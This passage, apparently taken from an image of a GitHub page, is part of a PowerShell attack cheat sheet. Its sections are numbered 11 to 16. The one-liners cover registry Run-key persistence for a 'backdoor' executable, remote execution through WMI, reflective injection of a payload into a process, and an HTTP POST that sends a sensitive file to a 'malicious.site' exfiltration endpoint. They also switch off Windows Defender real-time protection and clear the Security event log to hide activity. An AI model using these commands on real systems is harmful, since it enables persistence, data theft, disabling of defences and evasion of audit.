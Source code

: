 
### **11. Registry Persistence**
#### **Add to Run Key**
```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\malware.exe"
```
- **Purpose**: Adds a persistent backdoor via the Windows Registry.

---

### **12. WMI Remote Execution**
#### **Execute Command Remotely**
```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName TARGET_MACHINE
```
- **Purpose**: Executes commands on a remote machine via WMI.

---

### **13. Process Injection**
#### **Inject into Another Process**
```powershell
$process = Start-Process -FilePath "notepad.exe" -PassThru; Invoke-ReflectivePEInjection -PEBytes $payload -ProcessID $process.Id
```
- **Purpose**: Injects malicious code into a running process.

---

### **14. Data Exfiltration**
#### **Send Data via HTTP**
```powershell
Invoke-WebRequest -Uri "http://malicious.site/exfil" -Method POST -Body (Get-Content C:\sensitive.txt)
```
- **Purpose**: Sends sensitive data to an attacker’s server.

---

### **15. Disable Windows Defender**
#### **Turn Off Real-Time Protection**
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
- **Purpose**: Disables Windows Defender real-time protection.

---

### **16. Clear Event Logs**
#### **Erase Logs**
```powershell
Clear-EventLog -LogName Security
```
- **Purpose**: Clears security event logs to hide activity.

---
